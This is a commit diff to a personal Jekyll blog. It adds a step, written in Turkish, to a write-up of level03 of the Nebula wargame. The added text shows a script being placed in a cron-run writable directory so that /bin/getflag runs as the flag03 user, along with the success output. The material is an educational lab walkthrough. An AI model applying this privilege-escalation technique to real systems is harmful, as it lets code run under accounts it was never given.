

Before and after one commit to burcudemiralp/burcudemiralp.github.io, a Jekyll site: the page built from _posts/2018-02-23-nebula-writeup.md, in a window 1280 px wide and 900 px high, scrolled down 4736 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2018-02-23-nebula-writeup.md

```diff
--- a/_posts/2018-02-23-nebula-writeup.md
+++ b/_posts/2018-02-23-nebula-writeup.md
@@ -177,3 +177,11 @@ Farklı bir yol deneyip, /tmp dizini içerisinde dosya oluşturan bir script yaz
      level03@nebula:/tmp$ ls -l
      -rwxrwxr-x 2 flag03 flag03 40 2018-02-26 14:18 test
 {% endraw %}
+Böylece cronun flag03 kullanıcısı için yazıldığını görmüş oluyoruz. Şimdi yapmamız gereken getflag dosyasını çalıştıracak bir script yazmamız. Çalışıp çalışmadığını kontrol edebilmek için, çıktısını /tmp dizinine yönlendiriyoruz.
+{% raw %}
+     level03@nebula:/home/flag03/writable.d$ echo "/bin/getflag > /tmp/output " > getflag.sh
+     level03@nebula:/tmp$ ls
+     output test
+     level03@nebula:/tmp$ cat output
+     You have successfully executed getflag on a target account
+{% endraw %}
```
